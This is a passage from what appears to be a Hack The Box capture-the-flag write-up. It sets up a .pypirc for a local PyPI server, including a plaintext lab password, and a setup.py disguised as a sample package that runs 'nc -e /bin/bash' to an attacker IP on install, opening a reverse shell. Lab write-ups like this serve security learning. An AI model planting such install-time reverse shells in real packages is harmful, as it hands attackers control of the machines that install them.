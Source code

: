 i have to make two files 
<ul><li>.pypirc</li><li>setup.py</li></ul>
  
The file <code class="language-plaintext highlighter-rouge">.pypirc</code>will give me authority and setup.py will be contain the package
  
<blockquote>.pypirc</blockquote>
<pre>[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui</pre> 

<blockquote>setup.py
will contain the reverse shell  
</blockquote>  
  
<pre><span class="kn">import</span> <span class="nn">setuptools</span>
<span class="kn">import</span> <span class="nn">os</span>

<span class="k">if</span> <span class="n">os</span><span class="p">.</span><span class="n">getuid</span><span class="p">()</span> <span class="o">==</span> <span class="mi">1000</span><span class="p">:</span>
        <span class="n">os</span><span class="p">.</span><span class="n">system</span><span class="p">(</span><span class="s">'nc -e /bin/bash 10.10.17.16 2345'</span><span class="p">)</span>


<span class="n">setuptools</span><span class="p">.</span><span class="n">setup</span><span class="p">(</span>
        <span class="n">name</span><span class="o">=</span><span class="s">'sample'</span><span class="p">,</span>
        <span class="n">version</span><span class="o">=</span><span class="s">'1.2.0'</span><span class="p">,</span>
        <span class="n">description</span><span class="o">=</span><span class="s">'A sample Python project'</span><span class="p">,</span>
        <span class="n">long_description</span><span class="o">=</span><span class="s">"long_description"</span><span class="p">,</span>
        <span class="n">long_description_content_type</span><span class="o">=</span><span class="s">'text/x-rst'</span><span class="p">,</span>
        <span class="n">url</span><span class="o">=</span><span class="s">'https://github.com/pypa/sampleproject'</span><span class="p">,</span>
        <span class="n">author</span><span class="o">=</span><span class="s">'A. Random Developer'</span><span class="p">,</span>
        <span class="n">author_email</span><span class="o">=</span><span class="s">'author@example.com'</span><span class="p">,</span>
        <span class="n">license</span><span class="o">=</span><span class="s">'MIT'</span><span class="p">,</span>
        <span class="n">packages</span><span class="o">=</span><span class="n">setuptools</span><span class="p">.</span><span class="n">find_packages</span><span class="p">(),</span>
        <span class="n">install_requires</span><span class="o">=</span><span class="p">[</span><span class="s">'peppercorn'</span><span class="p">],</span>
<span class="p">)</span>
</pre>  
 